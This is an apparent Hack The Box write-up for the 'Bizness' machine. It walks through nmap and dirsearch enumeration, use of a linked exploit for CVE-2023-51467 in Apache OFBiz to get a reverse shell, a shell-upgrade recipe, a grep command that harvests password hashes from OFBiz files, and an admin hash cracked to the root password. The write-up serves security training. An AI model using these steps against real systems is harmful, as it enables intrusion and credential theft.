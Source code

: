 ```yaml
---
layout: post
title: "Bizness"
date: 2024-01-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine, CVE 2023-51467]
---
```

<p>
    <a href="https://app.hackthebox.com/machines/582">
        <img src="assets/img/bizzness/Bizness.png" width="500"
        alt="Descripción">
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2023-51467](#3-cve-2023-51467)
4. [Privilege Escalation](#4-user-to-root)


## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 10:10:57 2024 -- 1 IP address (1 host up) scanned in 29.47 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://bizness.htb*, so before connecting, we add it in `/etc/hosts`.

<p>
  <img src="assets/img/bizzness/home (1).png" 
  alt="Descripción"/>
</p>

Not seeing anything interesting I started [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
└─$ dirsearch -u https://bizness.htb --exclude-status 403,404,500,502,400,401

302     0B   https://bizness.htb/accounting    -> REDIRECTS TO: https://bizness.htb/accounting/
302     0B   https://bizness.htb/catalog    -> REDIRECTS TO: https://bizness.htb/catalog/
302     0B   https://bizness.htb/common    -> REDIRECTS TO: https://bizness.htb/common/
302     0B   https://bizness.htb/content    -> REDIRECTS TO: https://bizness.htb/content/
302     0B   https://bizness.htb/content/    -> REDIRECTS TO: https://bizness.htb/content/control/main
302     0B   https://bizness.htb/content/debug.log    -> REDIRECTS TO: https://bizness.htb/content/control/main
200    34KB  https://bizness.htb/control
200    34KB  https://bizness.htb/control/
200    11KB  https://bizness.htb/control/login
302     0B   https://bizness.htb/error    -> REDIRECTS TO: https://bizness.htb/error/
302     0B   https://bizness.htb/example    -> REDIRECTS TO: https://bizness.htb/example/
302     0B   https://bizness.htb/images    -> REDIRECTS TO: https://bizness.htb/images/
302     0B   https://bizness.htb/index.jsp    -> REDIRECTS TO: https://bizness.htb/control/main
200    21B   https://bizness.htb/solr/admin/
200    21B   https://bizness.htb/solr/admin/file/?file=solrconfig.xml
302     0B   https://bizness.htb/solr/    -> REDIRECTS TO: https://bizness.htb/solr/control/checkLogin/
```

Trying to connect to the first result obtained I am redirected to the [OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) login page.

<p>
  <img src="assets/img/bizzness/OFBiz.png" 
  alt="Descripción"/>
</p>

## 3. CVE-2023-51467

Having the system version

<p>
  <img src="assets/img/bizzness/version.png" 
  alt="Descripción"/>
</p>

I started looking for vulnerabilities and I found [CVE-2023-51467](https://www.letsdefend.io/blog/exploitation-analysis-of-apache-ofbiz-zero-day-vulnerabilities-cve-2023-49070-cve-2023-51467#:~:text=CVE%2D2023%2D51467%20is%20a,without%20requiring%20any%20prior%20authentication.), thanks to which it is possible to bypass authentication and execute commands. So I found an [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) for that CVE and performed a reverse shell.

<p>
  <img src="assets/img/bizzness/shell (1).png" 
  alt="Descripción"/>
</p>


We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In */home/ofbiz* there is the user flag.

## 4. User to ROOT

I tried using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) without success, so, after some exploration, I found an interesting file in */opt/ofbiz/framework/resources/templates/* called *AdminUserLoginData.xml*.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

So we have the current password but it is of no use. Then I ran a grep on each file to see if there were any passwords that were usable.

```bash
ofbiz@bizness:/opt/ofbiz$ find . -type f -exec strings {} \; | grep "currentPassword"
[...SNIPPET...]
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
[...SNIPPET...]
```

In the output I found a salted hash referring to the admin (which after looking it up I saw was in */opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat*).

While looking for a way to crack the hash I found a [tool](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker) that performs this operation on hashes coming from OFBiz.

<p>
  <img src="assets/img/bizzness/crack_hash.png" 
  alt="Descripción"/>
</p>

We use the password found to become superuser.

```bash
ofbiz@bizness:/opt/ofbiz$ su 
su 
Password: monkeybizness

root@bizness:/opt/ofbiz# whoami
whoami
root
```

In */root* there is the root flag.
